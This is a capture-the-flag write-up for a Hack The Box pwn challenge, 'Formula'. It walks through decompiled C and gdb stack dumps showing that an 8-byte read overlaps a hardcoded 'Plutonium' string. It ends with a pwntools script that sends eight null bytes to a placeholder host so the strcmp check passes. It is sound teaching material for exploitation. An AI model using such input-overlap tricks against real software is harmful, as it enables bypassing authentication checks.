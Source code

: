 ```yaml
---
title:  "[CTF] Formula"
categories: [CTF, HTB, Pwn]
---
```


*Marty, I found a letter from someone in my pocket that says Time Travel is possible and provides the ingredients and a secret formula. The note is not 100% readable due to the time and I cannot fully understand the handwritting either. Please help me read the note and let's get to work creating this thing!*!

## Understanding the challenge

The challenge presents a randomly-coloured flask with a story, and asks for the missing ingredient:
![Menu](/assets/images/Formula/menu.png)

Behind the scenes, we can understand more about the code from Ghidra’s decompiled version:

```c
undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_20 [7];
  undefined8 local_19;
  undefined local_11;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  story();
  local_19 = 0x75696e6f74756c50;
  local_11 = 0x6d;
  read(0,local_20,8);
  iVar1 = strcmp(local_20,(char *)&local_19);
  if (iVar1 == 0) {
    success();
  }
  else {
    fail();
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return 0;
}
```


In terms of security protections against exploitation, the binary has most of the checkboxes ticked:
![Checksec](/assets/images/Formula/checksec.png)

The challenge reads the ingredient from user input into the variable `local_20` (8 bytes), and compares it with the hardcoded ingredient Plutonium (9 bytes) - `0x75696e6f74756c50` and `0x6d`.

## Vulnerability identification

To locate the vulnerability, we need to examine the stack before the comparison which leads to `success()` is being made:

```asm
=> 0x555555400efd <main+92>:    call   0x555555400a00 <strcmp@plt>
   0x555555400f02 <main+97>:    test   eax,eax
   0x555555400f04 <main+99>:    jne    0x555555400f0d <main+108>
   0x555555400f06 <main+101>:   call   0x555555400b9a <success>
   0x555555400f0b <main+106>:   jmp    0x555555400f12 <main+113>
   0x555555400f0d <main+108>:   call   0x555555400c40 <fail>
   0x555555400f12 <main+113>:   mov    eax,0x0
   0x555555400f17 <main+118>:   mov    rcx,QWORD PTR [rbp-0x8]
```

According to the [Linux x64 calling convention](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame), the first two function parameters are accessed via the RDI and RSI registers:

```asm
// Plutonium (hardcoded)
gdb$ x/16b $rsi
0x7fffffffde0f: 0x50    0x6c    0x75    0x74    0x6f    0x6e    0x69    0x75
0x7fffffffde17: 0x6d    0x00    0x1b    0x6d    0x5b    0xc6    0x4c    0xe2

// Ingredient (user input - ABCD)
gdb$ x/16b $rdi
0x7fffffffde08: 0x41    0x42    0x43    0x44    0x0a    0x00    0x00    0x50
0x7fffffffde10: 0x6c    0x75    0x74    0x6f    0x6e    0x69    0x75    0x6d
0x7fffffffde18: 0x00

gdb$ x/s $rsi
0x7fffffffde0f: "Plutonium"

gdb$ x/s $rdi
0x7fffffffde08: "ABCD\n"
```

So we can read 8 bytes, and the 8th one will overwrite the first letter of the first letter of the hardcoded ingredient, `0x50` (**P**). 

## Exploitation

Even if not obvious straight away, the exploitation is actually quite easy. The only option to make the two strings equal is to *make them both `NULL`*, by sending 8 zeros as the secret ingredient.


```python
from pwn import *

conn = remote('<IP>', '<PORT>')

# Receive formula
print(conn.recvrepeat(2))

conn.send('\x00' * 8)
print(conn.recvrepeat(2))

conn.close()
```

## References

* [Linux x64 calling conventions and stack frame](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame)
